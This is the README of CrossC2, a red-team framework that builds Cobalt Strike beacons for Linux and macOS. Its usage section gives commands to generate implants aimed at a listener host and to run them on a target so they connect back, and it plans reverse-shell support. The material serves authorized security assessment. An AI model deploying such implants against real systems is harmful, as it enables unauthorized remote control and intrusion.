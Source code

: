 # CrossC2 framework

![ Linux ](https://img.shields.io/badge/platform-Linux-green)
![ macOS ](https://img.shields.io/badge/platform-macOS-green)
[![GitHub issues-closed](https://img.shields.io/github/issues-closed/gloxec/CrossC2.svg)](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[![Release](https://img.shields.io/github/release/gloxec/CrossC2.svg)](https://github.com/gloxec/CrossC2/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/gloxec/CrossC2/total?label=Release%20Download)](https://github.com/gloxec/CrossC2/releases/latest)



<p align="center">
  <img alt="CrossC2 Logo" src="media/16292585578533/CrossC2_logo.png" height="30%" width="30%">
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike support

Support CobaltStrike's security assessment of other platforms (Linux/MacOS/...), and include the development support of Unix post-penetration module

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (4.1~4.8) |
|-----------------|----------|-------|---------------|
| Master branch        | ✅        |       |               |
| cs4.0 branch         |          | ✅     |               |
| cs4.1 branch         |          |       | ✅             |
|                 |          |       |               |
| Release Page <= v2.1 | ✅        |       |               |
| Release Page >= v2.2 |          |       | ✅             |

![2023-07-31 16.56.51](media/16292585578533/CrossC2_action.gif)

# Usage

> 1. Download

Download **CrossC2.cna** **genCrossC2** **CrossC2Kit**, modify `CrossC2.cna` configuration

> 2. Create listener and copy key

* Create `windows/beacon_https/reverse_https` listener
* Copy `.cobaltstrike.beacon_keys` in **teamserver directory** to **local**

> 3. Function extension

* Add `CrossC2Kit_Loader.cna`, including memory loading and other functions
* `cs4.x` version file management, process list function is missing, you must use this Loader to restart

> 4. Generate beacon

Use the GUI function provided by cli or cna to generate beacon by default

`genCrossC2 <listener-ip/domain> <listener-port> <beacon_keys> <rebind_library;config.ini;c2profile.profile> <target_platform> <target_arch>`
    
ex:

```
1. read BEACON_KEY from current path and generate BEACON of default C2Profile traffic protocol
    genCrossC2 127.0.0.1 5555 null null Linux x64 beacon.out
     
2. specify the BEACON of the custom protocol dynamic library
    genCrossC2 127.0.0.1 5555 .cobaltstrike.beacon_keys c2profile.so MacOS x64 beacon.out

3. specify the C2Profile that needs to be automatically parsed
    genCrossC2 www.example.com 443 .cobaltstrike.beacon_keys ";;c2profile.profile" Linux x64 beacon.out
```

more advanced configuration can be found in the documentation: [📄Reference](https://github.com/gloxec/CrossC2/wiki/genCrossC2)

> 5. Run beacon

* Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`
* Set DEBUG to view the online status of beacon: `export CCDEBUG=1 && /tmp/c2`

# CrossC2Kit

CrossC2Kit: https://github.com/CrossC2/CrossC2Kit

CrossC2Kit is an infiltration expansion around the Unix platform derived from CrossC2. Use **Aggressor Script** Open Source Script engine. It can be used to create automation to simulate the operation process of the Red Team and expand the **CobaltStrike** client.

**CrossC2Kit** is inherited from the original features of **CobaltStrike**, so the development and writing grammar still refer to the official documentation: https://trial.cobaltstrike.com/aggressor-script/index.html

But it has some API extensions on top of CrossC2 to control the **beacon** of the Unix platform

API: [📄Reference](https://github.com/CrossC2/CrossC2Kit/wiki/API-Reference)

Demo: ![CrossC2_action2](media/16292585578533/CrossC2_action2.gif)

# Note

`Only for internal use by enterprises and organizations, this framework has a certain degree of instability. Non-professionals are not allowed to use it. Anyone shall not use it for illegal purposes and profitability. Besides that, publishing unauthorized modified version is also prohibited, or otherwise bear legal responsibilities.`

# Todo

1. http-proxy (auth) & socks proxy back connection support
2. node beacon? (Single node type, can host other beacon without relying on teamserver)
3. Linux & MacOS side so/dylib's reverse shell support, and its derivative process injection functions

# Thank

Thanks to **@Emma** for the Logo designed for CrossC2, which is designed in the style of **Armitage** and **CobaltStrike** series